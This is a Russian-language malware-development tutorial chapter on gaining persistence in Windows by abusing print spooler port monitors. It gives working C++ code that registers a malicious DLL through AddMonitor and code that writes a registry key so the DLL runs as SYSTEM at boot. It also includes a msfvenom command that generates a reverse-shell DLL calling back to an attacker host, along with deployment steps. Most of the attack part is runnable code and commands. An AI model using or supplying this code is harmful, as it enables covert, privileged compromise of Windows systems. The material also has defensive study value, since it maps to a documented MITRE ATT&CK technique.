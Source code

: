 \newpage
\subsection{74. Разработка вредоносного ПО: закрепление (persistence) - часть 8. Мониторы портов. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/59/2022-06-20_19-35.png){width="80%"}    

Этот пост является результатом самостоятельного исследования одного из интересных методов закрепления вредоносного ПО: Мониторы портов.    

### мониторы портов

Монитор порта в этом контексте относится к службе Windows Print Spooler (`spoolv.exe`). При добавлении монитора порта пользователь (или атакующий) может добавить произвольную DLL, которая будет служить *"монитором"*.    

Существует два основных способа добавить монитор порта, то есть вредоносную DLL: через реестр (для закрепления) или с помощью пользовательского приложения Windows (`AddMonitor`), что приведёт к немедленному выполнению DLL.    

### добавление монитора

С помощью Win32 API, а именно функции `AddMonitor` из API диспетчера очереди печати:

```cpp
BOOL AddMonitor(
  LPTSTR pName,
  DWORD  Level,
  LPBYTE pMonitors
);
```

можно добавить произвольный монитор DLL во время работы системы. Заметьте, что для добавления монитора требуются права локального администратора.    

Пример исходного кода монитора:

```cpp
/*
monitor.cpp
windows persistence via port monitors
register the monitor port
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include "windows.h"
#pragma comment(lib, "winspool")

int main(int argc, char* argv[]) {
  MONITOR_INFO_2 mi;
  mi.pName = "Monitor";
  mi.pEnvironment = "Windows x64";
  // mi.pDLLName = "evil.dll";
  mi.pDLLName = "evil2.dll";
  AddMonitor(NULL, 2, (LPBYTE)&mi);
  return 0;
}

```

Скомпилируем его:

```bash
x86_64-w64-mingw32-g++ -O2 monitor.cpp -o monitor.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lwinspool
```

![pers](./images/59/2022-06-20_08-17.png){width="80%"}    

Также создадим "вредоносную" DLL:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=192.168.56.1 LPORT=4445 -f dll > evil2.dll
```

![pers](./images/59/2022-06-20_19-24.png){width="80%"}    

После компиляции кода будет создан исполняемый файл (`monitor.exe`), который зарегистрирует вредоносную DLL (`evil2.dll`) в системе.    

### демонстрация добавления "монитора"

Копируем файлы и запускаем:

```powershell
copy Z:\2022-06-19-malware-pers-8\evil2.dll .\
copy Z:\2022-06-19-malware-pers-8\monitor.exe .\
.\monitor.exe
```

![pers](./images/59/2022-06-20_19-28.png){width="80%"}    

### закрепление через реестр

Список под-ключей мониторов портов можно найти в узле        
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Print\Monitors`.       
Каждый ключ должен содержать запись `REG_SZ`, указывающую на `Drivers` DLL. При запуске системы каждая из этих DLL будет выполняться от имени `SYSTEM`.    

Сначала, перед выполнением вредоносных действий, проверяем под-ключи:

```powershell
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors" \
/s
```

![pers](./images/59/2022-06-20_15-48.png){width="80%"}    

Затем добавляем под-ключ `Meow` и значение `Driver`:

```powershell
reg add \
"HKLM\System\CurrentControlSet\Control\Print\Monitors\Meow"
 /v "Driver" /d "evil2.dll" /t REG_SZ
reg query \
"HKLM\System\CurrentControlSet\Control\Print\Monitors"
 /s
```

![pers](./images/59/2022-06-20_18-17.png){width="80%"}    

Как видно, всё выполнено корректно. Затем перезагружаем машину жертвы:

![pers](./images/59/2022-06-20_18-17_1.png){width="80%"}    

![pers](./images/59/2022-06-20_18-17_2.png){width="80%"}    

И через несколько минут:

![pers](./images/59/2022-06-20_19-30.png){width="80%"}    

![pers](./images/59/2022-06-20_19-31.png){width="80%"}    

Проверяем вкладку `Network` в Process Hacker 2:

![pers](./images/59/2022-06-20_19-34.png){width="80%"}    

Можно увидеть, что `evil2.dll` используется `spoolsv.exe (PID: 4616)`, который в конечном итоге порождает `rundll32` с нашим вредоносным кодом, создавая соединение с атакующим:

![pers](./images/59/2022-06-20_19-33.png){width="80%"}    

очистка после экспериментов

```powershell
Remove-ItemProperty -Path \
"HKLM:\System\CurrentControlSet\Control\Print\Monitors\
Meow" -Name "Driver"
```

![pers](./images/59/2022-06-20_21-22.png){width="80%"}    

"Грязный" PoC для закрепления через реестр:

```cpp
/*
pers.cpp
windows persistence via port monitors
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/19/malware-pers-8.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "\\System\\CurrentControlSet\\Control\\Print\\Monitors\\Meow";

  // evil DLL
  const char* evilDll = "evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {

    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"Driver", 0, REG_SZ, 
    (unsigned char*)evilDll, strlen(evilDll));
    RegCloseKey(hkey);
  } else {
    printf("failed to create new registry subkey :(");
    return -1;
  }
    return 0;
}
```

Во время Defcon 22 Брэди Блоксхэм [продемонстрировал](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf) этот метод закрепления. Этот метод требует прав администратора, а DLL-файл должен быть сохранен на диске.
Остается вопрос, используют ли какие-либо APT этот метод в реальных условиях.

[Windows Print Spooler Service](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-prsod/7262f540-dd18-46a3-b645-8ea9b59753dc)    
[Defcon-22: Brady Bloxham - Getting Windows to Play with itself](https://defcon.org/images/defcon-22/dc-22-presentations/Bloxham/DEFCON-22-Brady-Bloxham-Windows-API-Abuse-UPDATED.pdf)    
[MITRE ATT&CK - Port Monitors persistence technique](https://attack.mitre.org/techniques/T1547/010/)    
[исходный код на Github](https://github.com/cocomelonc/2022-06-19-malware-pers-8)   
